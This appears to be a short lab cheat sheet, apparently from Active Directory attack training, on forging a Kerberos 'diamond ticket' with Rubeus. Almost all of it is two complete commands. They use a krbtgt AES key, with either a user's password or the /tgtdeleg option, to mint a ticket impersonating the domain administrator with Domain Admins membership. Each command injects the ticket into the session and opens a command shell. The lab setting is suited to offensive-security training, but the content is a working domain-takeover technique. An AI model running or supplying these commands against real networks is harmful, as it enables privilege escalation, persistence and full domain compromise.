 # 4 Diamond Ticket

## Diamond Ticket

## Rubeus.exe

### We would still need krbtgt AES keys. Use the following Rubeus command to create a diamond ticket (note that RC4 or AES keys of the user can be used too)

```powershell
Rubeus.exe diamond /krbkey:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /user:studentuserx /password:studentuserxpassword /enctype:aes /ticketuser:administrator /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

### We could also use /tgtdeleg option in place of credentials in case we have access as a domain user

```powershell
Rubeus.exe diamond /krbkey:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
